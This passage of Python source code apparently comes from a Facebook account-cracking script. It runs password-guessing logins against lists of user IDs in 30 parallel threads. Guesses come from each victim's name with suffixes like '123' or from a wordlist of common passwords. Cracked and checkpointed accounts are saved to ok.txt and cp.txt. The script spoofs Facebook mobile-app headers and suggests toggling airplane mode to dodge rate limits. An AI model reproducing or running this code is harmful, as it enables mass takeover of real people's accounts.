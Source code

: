 	elif profers == "6":
		bukanmaen = raw_input("\n%s [%s•%s] Crack With Pass auto/Manual [d/m]\n %s[%s•%s] Choose: "%(p,k,p,p,k,p))
		if bukanmaen in ["m","M"]:
			with ThreadPoolExecutor(max_workers=30) as coeg:
				asu = raw_input("%s [%s•%s] Example password: pakistan,786786,khan1222\n %s[%s•%s] Pass list: "%(p,k,p,p,k,p)).split(",")
				if len(asu) =="":
					exit("%s [%s!%s] Unknown!"%(p,m,p))
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] No result? turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] No result? reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					coeg.submit(freefb, uid, asu)
			hasil()
		elif bukanmaen == "a":
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] No result? turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] No result? reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					frist=name.split(" ")
					if len(frist)>=6:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					elif len(frist)<=2:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					elif len(frist)<=3:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					else:
						pwcuk = [ "sayang", "bismillah", "anjing", "bangsat", "freefire", "katasandi", "indonesia", "sayangkamu", "doraemon", "merdeka", "sepeda", "kontol", "jembut", "legend", "kuontol", "password", "samsung", "xiaomi", "kacang", "kelinci", "youtube", "facebook" ]
					coeg.submit(freefb, uid, pwcuk)
			hasil()	
		else:
			exit("\n%s [%s!%s] Unknown!"%(p,m,p))

	else:
		menu()   
### Api Fast Crack ###
def api(uid, pwcuk):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = ("NokiaC3-00/5.0 (07.20) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+")
	global ua_de, ok, cp, loop, token
	sys.stdout.write(
		"\r [GK] %s/%s OK:-%s - CP:-%s "%(loop, len(id), len(ok), len(cp))
	); sys.stdout.flush()
	for pw in pwcuk:
		pw = pw.lower()
		ses = requests.Session()
		headers_ = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}